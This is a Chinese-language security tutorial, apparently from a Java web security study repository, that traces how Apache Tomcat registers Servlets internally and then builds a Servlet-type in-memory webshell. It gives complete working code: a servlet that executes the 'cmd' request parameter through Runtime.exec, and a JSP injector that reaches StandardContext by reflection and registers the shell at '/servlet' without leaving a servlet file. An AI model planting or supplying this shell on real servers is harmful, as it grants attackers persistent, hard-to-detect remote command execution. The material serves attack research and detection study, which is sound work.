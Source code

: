 # Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令
![image-20221101114404454](images/image-20221101114404454.png)

在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点
![image-20221102112537194](images/image-20221102112537194.png)

跟进`findChildren()`方法
![image-20221102112635004](images/image-20221102112635004.png)

此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试
![image-20221103111449771](images/image-20221103111449771.png)

跟进该方法
![image-20221107001456763](images/image-20221107001456763.png)

继续跟进`listener.lifecycleEvent()`方法
![image-20221103111626107](images/image-20221103111626107.png)

继续跟进`configureStart()`方法
![image-20221103111647954](images/image-20221103111647954.png)

调用了`webConfig()`方法，继续跟进
![image-20221107001703460](images/image-20221107001703460.png)

通过`createWebXml()`方法开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走
![image-20221107001816881](images/image-20221107001816881.png)

这里跟进`processClasses()`方法
![image-20221107002001998](images/image-20221107002001998.png)

这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容
![image-20221107002115992](images/image-20221107002115992.png)

其中在`/WEB-INF/classes/com/`路径下获取到`ServletTest.class`文件并添加到了`resource`
![image-20221107002325742](images/image-20221107002325742.png)

此时，`ServletTest`也被添加到了`webXml`对象中的`servletMappings`中
![image-20221107002446679](images/image-20221107002446679.png)

接着回到`ContextConfig#webConfig()`方法中，跟进`configureContext()`方法
![image-20221107095955380](images/image-20221107095955380.png)

在`configureContext()`方法中调到和`servlet`相关的代码
![image-20221107100457312](images/image-20221107100457312.png)

可以看到，通过`StandardContext.createWrapper()`方法创建了一个`wrapper`即`StandardWrapper`对象，同时为`wrapper`设置`LoadOnStartup`属性值
![image-20221107100659954](images/image-20221107100659954.png)

继续往下，分别为`wrapper`设置了`name`和`servletClass`属性的值，继续往下走
![image-20221107105938750](images/image-20221107105938750.png)

跟进`addChild()`方法
![image-20221107110138127](images/image-20221107110138127.png)

通过`context.addChild()`方法将`wrapper`添加到`ContainerBase`的`children`属性中，代码继续往下走
![image-20221107110331923](images/image-20221107110331923.png)

这里跟进`addServletMappingDecoded()`方法
![image-20221107110750212](images/image-20221107110750212.png)

最后将`ServletTest`类的路径映射添加到`wrapper`对象中。

弄清楚添加`ServletTest`的流程后，我们回到一开始的`loadOnStartup()`方法并跟进代码
![image-20221107111232641](images/image-20221107111232641.png)

这里判断`wrapper`对象的`LoadOnStartup`属性值，默认为 -1，
![image-20221107111350280](images/image-20221107111350280.png)

只有`LoadOnStartup`属性值大于 0 的时候，被`list.add()`方法添加到`list`中，最后才会被`wrapper.load()`方法加载到内存中进行调用。

这里需要了解一下`LoadOnStartup`在 Servlet 配置的含义：

> 标记容器是否在启动的时候就加载这个 servlet。 当值为 0 或者大于 0 时，表示容器在应用启动时就加载这个 servlet； 当是一个负数时或者没有指定时，则指示容器在该 servlet 被选择时才加载。 正数的值越小，启动该 servlet 的优先级越高。对应 Tomcat Servlet 的懒加载机制。

因此`LoadOnStartup`属性设置与不设置并不影响`Servlet`的加载，当然为了追求优先级一般都会设置一下，追求更完美不是。

整个`Servlet`的流程分析到这里算是结束了，可以总结完成动态注册`Servlet`的流程如下：

1. 编写恶意的`Servlet`类；
2. 获取`StandardContext`对象；
3. 创建`StandardWrapper`对象；
4. 设置`StandardWrapper`属性值`LoadOnStartup`属性值大于 0；
5. 设置`StandardWrapper`属性值`ServletName`；
6. 设置`ServletName`属性值`ServletClass`；
7. 将`StandardWrapper`对象添加到`ContainerBase`类的`children`属性中；
8. 通过`StandardContext.addServletMappingDecoded()`方法添加`Servlet`类的路径映射

开始编写 Servlet 型内存马
```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.core.StandardWrapper" %><%--
  Created by dotast on 2022/11/7 17:02
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    class ServletTest extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            try{
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                resp.getWriter().write(new String(bao.toByteArray()));

            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
%>

<%
    // 获取StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    // 创建StandardWrapper对象，设置属性
    ServletTest servletTest = new ServletTest();
    StandardWrapper wrapper = new StandardWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(servletTest.getClass().getSimpleName());
    wrapper.setServlet(servletTest);
    wrapper.setServletClass(servletTest.getClass().getName());
    // 将StandardWrapper对象添加到ContainerBase类的children属性中
    standardContext.addChild(wrapper);
    // 通过StandardContext.addServletMappingDecoded()方法添加Servlet类的路径映射
    standardContext.addServletMappingDecoded("/servlet",servletTest.getClass().getSimpleName());

%>
```

访问上传的内存马文件路径使其执行代码，注册内存马
![image-20221107172042764](images/image-20221107172042764.png)

接着访问设置的路由`/servlet`成功执行命令
![image-20221107172132115](images/image-20221107172132115.png)
